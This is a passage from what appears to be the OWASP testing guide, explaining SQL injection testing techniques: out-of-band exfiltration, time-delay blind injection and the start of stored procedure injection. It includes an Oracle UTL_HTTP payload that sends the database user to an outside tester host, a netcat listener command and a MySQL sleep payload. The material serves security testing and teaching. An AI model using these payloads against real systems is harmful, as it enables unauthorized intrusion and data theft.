 Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script who executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be:

`http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`. The tester can set up a webserver (e.g. Apache) or use the Netcat tool:

```bash
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Time Delay Exploitation Technique

The time delay exploitation technique is very useful when the tester find a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script who executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be (e.g. MySql 5.x):

`http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

In this example the tester is checking whether the MySql version is 5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn’t need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds.

#### Stored Procedure Injection

When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.

Consider the following SQL Server Stored Procedure:
